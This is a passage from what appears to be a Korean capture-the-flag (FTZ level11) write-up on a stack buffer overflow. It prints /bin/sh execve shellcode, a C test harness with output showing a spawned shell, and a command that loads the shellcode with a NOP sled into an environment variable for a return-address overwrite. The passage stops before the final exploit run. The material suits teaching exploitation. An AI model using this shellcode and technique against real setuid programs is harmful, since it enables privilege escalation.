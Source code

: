 - 처음 esp = ebp = 0xbfffe028
- 108 만큼 스택 확장 후 esp = 0xbfffdf20
- 8 만큼 추가 스택 확장 후 esp = 0xbfffdf18

예상했던 대로 esp가 바뀌었습니다.  
근데 이 프로그램은 실행할 때 마다 메모리 주소가 달라집니다. 이 경우에는 환경변수에 쉘 코드를 넣어놓고, 환경 변수의 address를 ret에 넣음으로써 쉘 코드를 실행하게 할 수 있습니다.  

자 이제 문제 해결 전략이 나왔습니다.

  1. **환경변수에 쉘코드를 집어넣고**
  2. **esp에서 268 바이트 거리에 있는 ret에 환경변수의 주소가 들어가도록 프로그램을 실행합니다.**

---
## **문제 풀기**

#### **환경변수에 쉘 코드 넣기**

달고나 문서에서는 eggshell.c 파일을 사용해서 환경변수에 NOP, 쉘코드 입력과 메모리 주소 확인을 한번에 했었는데, 여기서는 다른 분들의 write-up에 따라서 환경변수 추가 및 주소 가져오는 작업만 직접 해보겠습니다.

쉘코드는 구글에서 검색해서 찾았습니다. (쉘코드 출처 https://blog.kimtae.xyz/28)  


```
"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\xb0\x01\xcd\x80"
```

일단 제대로 작동하는지 한번 실행해보겠습니다.
```
[level11@ftz tmp]$ cat shellcode.c              
char sc[] = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\xb0\x01\xcd\x80";

void main(){
	int *ret;
	ret = (int *)&ret +2;
	*ret = sc;
}

[level11@ftz tmp]$ gcc -o shellcode shellcode.c
shellcode.c: In function `main':
shellcode.c:6: warning: assignment makes integer from pointer without a cast
shellcode.c:3: warning: return type of `main' is not `int'
[level11@ftz tmp]$ ./shellcode
sh-2.05b$ exit
exit
```
제대로 작동합니다.  

이제 이 쉘코드를 `egg`라는 환경변수에 집어 넣을건데, NOP 썰매를 태우기 위해 쉘코드 앞에 NOP를 잔뜩 갖다 붙이겠습니다.

```
export egg=`python -c 'print "\x90"*100 +"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\xb0\x01\xcd\x80"'`
```
